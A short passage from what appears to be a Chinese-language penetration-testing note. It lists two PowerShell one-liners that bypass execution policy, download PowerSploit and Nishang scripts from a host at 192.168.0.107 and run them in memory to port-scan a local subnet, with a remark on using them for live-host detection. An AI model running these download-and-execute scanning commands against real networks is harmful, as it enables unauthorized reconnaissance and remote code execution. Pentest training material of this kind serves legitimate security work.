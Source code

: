 #### Powersploit
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/powersploit/Recon/Invoke-Portscan.ps1'); Invoke-Portscan -Hosts 192.168.0.0/24 –T 4 -Ports '1-65535' -oA C:\TEMP.txt"
#### Nishang 
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/nishang/Scan/Invoke-PortScan.ps1'); Invoke-Portscan -StartAddress 192.168.0.1 -EndAddress 192.168.0.254 -ResolveHost -ScanPort"
![image](/assets/Pentest_Note/master/img/320.png)

	去掉scanport就是探测存活
